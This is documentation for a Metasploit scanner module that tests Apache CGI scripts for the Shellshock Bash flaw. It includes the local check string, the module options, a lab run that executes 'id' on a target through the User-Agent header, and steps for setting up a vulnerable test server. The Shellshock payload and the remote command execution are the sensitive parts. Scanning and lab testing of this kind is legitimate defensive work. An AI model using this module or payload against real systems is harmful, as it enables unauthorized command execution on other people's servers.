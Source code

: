 ## Vulnerable Application

This module scans for the Shellshock vulnerability, a flaw in how the Bash shell handles external environment variables. This module targets CGI scripts in the Apache web server by setting the HTTP_USER_AGENT environment variable to a malicious function definition.

## Verification Steps
1. Do: run `msfconsole`
2. Do: set `RHOSTS [IP]`
3. Do: set `TARGETURI [URI]`
4. Do: `run`

### To check if a host is vulnerable to the attack
1. run (on the host)
```
env 'x=() { :;}; echo vulnerable' 'BASH_FUNC_x()=() { :;}; echo vulnerable' bash -c "echo test"
```
2. The shell will return the below text if the environment is vulnerable
``` 
vulnerable
bash: BASH_FUNC_x(): line 0: syntax error near unexpected token `)'   
bash: BASH_FUNC_x(): line 0: `BASH_FUNC_x() () { :;}; echo vulnerable'
bash: error importing function definition for `BASH_FUNC_x'
test
``` 

## Options
1. `CMD`. The default setting is /usr/bin/id
2. `CVE`. The default setting is CVE-2014-6271 but valid options are CVE-2014-6271 or CVE-2014-6278
3. `HEADER`. The default setting is User-Agent
4. `METHOD`. The default setting is GET
5. `Proxies`. This option is not set by default
6. `RHOSTS`. This option is not set by default but must bet set to run the scanner. It will most likely be set to the IP address of the remote server that the module is run against.
7. `RPORT`. This option is set to 80 by default 
8. `SSL`. This option is not set by default
9. `TARGETURI`. This option  is not set by default but must be set to run the scanner. This option will be set to a cgi script on the target server.
10. `THREADS`. This option is set to 1 by default
11. `VHOST`. This option is not set by default

## Scenarios

### Ubuntu 12.04.5 LTS on Apache 2.2.22
  ```
msf5 > use auxiliary/scanner/http/apache_mod_cgi_bash_env
msf5 auxiliary(scanner/http/apache_mod_cgi_bash_env) > set RHOSTS 172.16.131.134
RHOSTS => 172.16.131.134
msf5 auxiliary(scanner/http/apache_mod_cgi_bash_env) > set TARGETURI /cgi-bin/test.sh
TARGETURI => /cgi-bin/test.sh
msf5 auxiliary(scanner/http/apache_mod_cgi_bash_env) > exploit

[+] uid=33(www-data) gid=33(www-data) groups=33(www-data)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
  ```

### Creating a Vulnerable Environment
To setup an Environment that the scanner can be run against, follow the below steps to install a vulnerable OS and Apache version

  To ensure that you have a vulnerable version of bash:
  1. Install Ubuntu 12.04.5 LTS from ISO (available at: http://cdimage.ubuntu.com/releases/12.04/release/)
  2. log into console 
  3. run 
```
env 'x=() { :;}; echo vulnerable' 'BASH_FUNC_x()=() { :;}; echo vulnerable' bash -c "echo test"
```
  4. The shell will return the below text to confirm that the environment is vulnerable
```
vulnerable
bash: BASH_FUNC_x(): line 0: syntax error near unexpected token `)'
bash: BASH_FUNC_x(): line 0: `BASH_FUNC_x() () { :;}; echo vulnerable'
bash: error importing function definition for `BASH_FUNC_x'
test
```
(NOTE: The next series of commands should be run as root or with sudo)
5. Also install Apache2 from the apt repository with the following command
```
apt-get install apache2
```
  6. Enable cgi-mod in apache with the following command
```
ln -s /etc/apache2/mods-available/cgi.load /etc/apache2/mods-enabled/cgi.load
```
  7. Restart the apache service with the following command
```
service apache2 reload
```
  8. In your favorite text editor create a file (as root) in /usr/lib/cgi-bin called test.sh with the following contents
```
#!/bin/bash
printf "Content-type: text/html\n\n"
printf "Test!\n"
```
  9. Set the file to be executable with the following command
```
sudo chmod +x /usr/lib/cgi-bin/test.sh
```
